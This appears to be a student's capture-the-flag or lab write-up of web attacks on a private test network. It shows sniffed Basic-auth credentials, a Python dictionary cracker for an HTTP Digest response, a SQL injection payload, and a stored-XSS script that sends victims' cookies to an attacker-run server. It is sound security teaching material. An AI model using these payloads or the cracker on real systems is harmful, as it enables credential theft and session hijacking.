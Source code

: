# 1

## Packet
```
IP 192.168.14.3.46826 > 192.168.14.1.80: Flags [P.], seq 1:143, ack 1, win 502, options [nop,nop,TS val 1452909150 ecr 2428281190], length 142: HTTP: GET /secret/file HTTP/1.1
E.....@.@..............P.Tw.|..j...........
V..^...fGET /secret/file HTTP/1.1
Host: 192.168.14.1
Authorization: Basic dHJhdmlzMTQ6bWFpdkRlY2d1cjIyMDI=
User-Agent: curl/7.58.0
Accept: */*
```

## User/Pass:
`travis14:maivDecgur2202`

## Contents:
```html
I'm going to let you in on a little secret. Every day, once a day, give yourself a present. Don’t plan it; don’t wait for it; just let it happen.
- Dale Cooper
```
# 2
## Packet
```
182203 IP 192.168.14.2.36586 > 192.168.14.1.80: Flags [P.], seq 91:464, ack 308, win 501, options [nop,nop,TS val 422351445 ecr 1957960104], length 373: HTTP: HEAD /secret/cheese HTTP/1.1
E.....@.@..v...........P,..................
.,.Ut...HEAD /secret/cheese HTTP/1.1
Host: 192.168.14.1
Authorization: Digest username="travis14", realm="Cheese", nonce="/DPYEFbSBQA=c06893026441a70acf049b49540e97acd2bdd640", uri="/secret/cheese", cnonce="ZjdlNTk0ZGZmMDQwZTU3OTM2MTIxOGEyNzljNDJlYzc=", nc=00000001, qop=auth, response="872aafc461761e417d2df47b85e43d2b", algorithm="MD5"
User-Agent: curl/7.58.0
Accept: */*
```

## Crack
```python
# HTTP Digest Authentication cracker
import hashlib

username = "travis14"
realm = "Cheese"
nonce = "/DPYEFbSBQA=c06893026441a70acf049b49540e97acd2bdd640"
uri = "/secret/cheese"
qop = "auth"
nc = "00000001"
cnonce = "ZjdlNTk0ZGZmMDQwZTU3OTM2MTIxOGEyNzljNDJlYzc="
response = "872aafc461761e417d2df47b85e43d2b"

# Calculate the response
with open("10k-most-common.txt") as f:
    for line in f:
        line = line.strip('\n').strip()
        ha1 = hashlib.md5((username + ":" + realm + ":" + line).encode('utf-8')).hexdigest()
        ha2 = hashlib.md5(("HEAD" + ":" + uri).encode('utf-8')).hexdigest()
        response = hashlib.md5((ha1 + ":" + nonce + ":" + nc + ":" + cnonce + ":" + qop + ":" + ha2).encode('utf-8')).hexdigest()
        # print(line + ":" + response)
        if (response == "872aafc461761e417d2df47b85e43d2b"):
            print("Password: " + line)
            break

```
## Password
`Password: domain`

##Contents:
```
Intelligence alone is not nearly enough when it comes to acting wisely.

— Fyodor Dostoevsky
```

# 3
## Cookie
`Stephen2019-11-03T12%3A44%3A21Z`

# 4
The secret to figuring out the SQL injection was ~~trying everything~~ tuning the query to stop returning Error 500.

## Request
`picture=char-kway-teow.jpg'+OR+1=1+AND'user=alice--`

## Response
`The best char kway teow is Penang char kway teow (lat: 5.411135 / lng: 100.330462)`

# 5

## XSS
```html
<script>document.location="http://192.168.14.3:8080/?cookie="+document.cookie;</script>
```

## Cookie
`GET /?cookie=auth=Iwillseeyouagainin32years. HTTP/1.1" 200 -`

## Writeup
The main additional thing I did was start up a `SimpleHTTPServer` on port 8080 of the server I have SSH access to. The attack works because the server is making an HTTP request to that port with the cookie being that of the browser.

# 6
